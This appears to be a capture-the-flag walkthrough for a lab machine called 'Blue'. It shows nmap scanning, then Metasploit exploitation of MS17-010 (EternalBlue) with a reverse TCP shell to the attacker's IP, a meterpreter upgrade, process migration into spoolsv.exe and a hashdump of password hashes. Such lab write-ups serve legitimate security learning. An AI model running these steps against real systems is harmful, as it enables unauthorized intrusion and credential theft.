## **Blue**

```
nmap -p- -sC -sV <IP>
```

```
nmap --script=vuln 10.49.178.117
```

We found a MS17



```
searchsploit MS17
```



I found a ton and we can use these scripts but here we will prefer metasploit tool

```
msfconsole
```

```
search ms17-010
```



We have a few but we will choose first one to do it

```
use 0
```

```
options
```



Now when we do it, we have to change few things, Add RHOSTS, Change LHOST (We can also change LPORT but let us keep it at default)

```
set payload windows/x64/shell/reverse_tcp
```

```
set RHOSTS <IP>
```

```
set LHOST <Your tun0 IP>
```



```
exploit
```



Now do 

Ctrl + Z 

Now do y to make it in background

```
search shell to meterpreter shell
```




```
use 110
```

If it is different in your case, do this

```
use post/multi/manage/shell_to_meterpreter
```

Now we will select our running session from our windows earlier (meterpreter one)

```
sessions -l
```

```
set session 1
```



```
run
```

This will give us a much better shell with NT authority, now we are meterpreter

```
getuid
```

```
ps
```



We find this spoolsv.exe



```
migrate -N spoolsv.exe
```

```
hashdump
```




